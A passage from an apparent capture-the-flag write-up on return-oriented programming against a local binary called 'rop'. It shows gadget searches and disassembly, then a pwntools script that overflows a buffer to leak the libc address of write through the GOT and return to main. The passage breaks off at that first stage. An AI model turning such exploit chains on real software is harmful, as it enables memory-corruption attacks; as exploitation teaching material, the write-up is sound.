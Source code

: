```c
ssize_t write(int fd, const void *buf, size_t liczba);
``` 

We got three arguments:
* rdi - fd (file descriptor)
* rsi - address of string to print
* rdx - amount of character to write

Let's look for gadgets:

```plain
# ROPgadget --binary rop | grep -E 'pop rsi|pop rdx' 
0x0000000000400611 : pop rsi ; pop r15 ; ret
```

In the binary there is only rsi gadget so we cant set rdx. However rdx was set to 0x280 before the first write call here:

```nasm
lea     rax, [rbp+buf]  ; load addres of local array to rax
mov     edx, 280h       ; load amount of characters which have to be read to edx
mov     rsi, rax        ; copy adres from rax to rsi
mov     edi, 0          ; set file descriptor (0 means a standard input)
mov     eax, 0          ; clear rax (in rax _read error code will be stored)
call    _read
nop
```

So we only need to load proper values to rdi and rsi.

The first payload will contain:
* 'A'*72 
* address of rdi gadget
* 0x1 (file descriptor for write)
* address of rsi gadget
* write offset in GOT (this will point to the write address in libc)
* 0x0 (rsi gadget contains pop r15 instruction so we have to place some garbage on stack for r15)
* write offset in PLT (this will point to the write call)
* address of a main function (if we rerun the program, the libc address will be changed so we have to jump to start of the main function)

Here is python code for part one:

```python
#!/bin/python
from pwn import *

context.log_level = 'debug'
context.terminal  = ['tilix', '-a', 'session-add-right','-e']

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

proc = process('./rop')

log.info("Stage one")
# Input str
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)
```